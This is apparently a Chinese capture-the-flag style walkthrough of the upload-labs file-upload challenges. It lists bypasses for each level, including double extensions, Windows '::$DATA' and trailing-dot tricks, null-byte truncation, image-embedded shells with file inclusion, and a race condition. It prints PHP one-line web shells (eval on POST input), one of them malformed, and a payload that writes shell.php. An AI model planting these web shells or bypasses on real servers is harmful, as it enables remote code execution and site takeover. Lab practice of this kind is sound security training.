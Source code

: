 - [pass1](#pass1)
- [pass2](#pass2)
- [pass3](#pass3)
- [pass4](#pass4)
- [pass5](#pass5)
- [pass6](#pass6)
- [pass7](#pass7)
- [pass8](#pass8)
- [pass9](#pass9)
- [pass10](#pass10)
- [pass11](#pass11)
- [pass12](#pass12)
- [pass13](#pass13)
- [pass14](#pass14)
- [pass15](#pass15)
- [pass16](#pass16)
- [pass17](#pass17)
- [pass18](#pass18)
- [pass19](#pass19)
- [pass20](#pass20)
- [pass21](#pass21)
# pass1
只允许上传图片，可以写个一句话木马
`<?php @eval[$_POST('qqqqq')];?>`    
改名称`1.php.jpg`，上传图片，burp抓包修改成`1.php`

![](./img/pass1.png)

利用一句话木马上传后蚁剑链接
# pass2
利用pass1的方法依然可以完成
# pass3
上传一句话木马后发现被重命名了
![](./img/pass3.1.png)
# pass4
更改后缀方法不行，显然是服务器端校验，burp抓包，利用windows特性，修改文件名为`1.php:.jpg`,上传成功后再次上传`1.<`,即可成功上传一句话木马
# pass5
试了很多种方法不行，尝试`1.php. .`成功上传且链接
# pass6
网上直接加空格方法不行，尝试`1.PHP `成功
# pass7
同pass6
# pass8
查看源码少了过滤文件末尾的点，上传文件，抓包改`1.php.`上传成功
# pass9
没有对后缀名中的’::$DATA’进行过滤。在php+windows的情况下：如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件名。利用windows特性，可在后缀名中加” ::$DATA”绕过,抓包，修改后缀为`1.php::$DATA`
# pass10
代码先是去除文件名前后的空格，再去除文件名最后所有的.，再通过strrchar函数来寻找.来确认文件名的后缀，但是最后保存文件的时候没有重命名而使用的原始的文件名，导致可以利用`1.php. .`（点+空格+点）来绕过
# pass11
可以通过`1.pphphp`来绕过，查看代码系统会自动删除一个php
# pass12
- 前提条件，php 版本 < 5.3.4且php的参数magic_quotes_gpc必须关闭
上传图片格式的一句话木马，burp抓包，修改文件路径upload/1.php%00,即可成功上传链接
# pass13
上传图片格式的一句话木马，burp抓包，修改文件路径upload/1.php+，在二进制hex页面把+对应的2b改成00，即可成功上传
# pass14
必须上传图片马绕过，首先做一个图片马
    copy 1.jpg/b+1.php/a 11.jpg
然后将图片马上传，使用页面中的文件包含漏洞
    ?file=upload/   .jpg
![](./img/pass14.1.png)
可以看到图片马已被成功解析，接下来就可以用蚁剑成功链接了
# pass15
方法同14
# pass16
方法同14
# pass17
下载一个gif，首先合成图片马，上传，发现底部图片马部分已经过滤，对比上传后的图片与本来的图片，发现前几行不变，在不变的部分插入一句话木马，保存，上传，再执行文件包含漏洞，成功连接
# pass18
条件竞争，利用burp或者python不断上传一句话木马生成文件1.php.7z,文件内容
```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_post["cmd"])?>');?>
```
然后蚁剑连接
# pass19
# pass20
还是00截断，首先上传带有图片头文件的图片马，上传后更改文件名为1.php+,然后把+对应的十六进制文件改成00,链接即可
# pass21
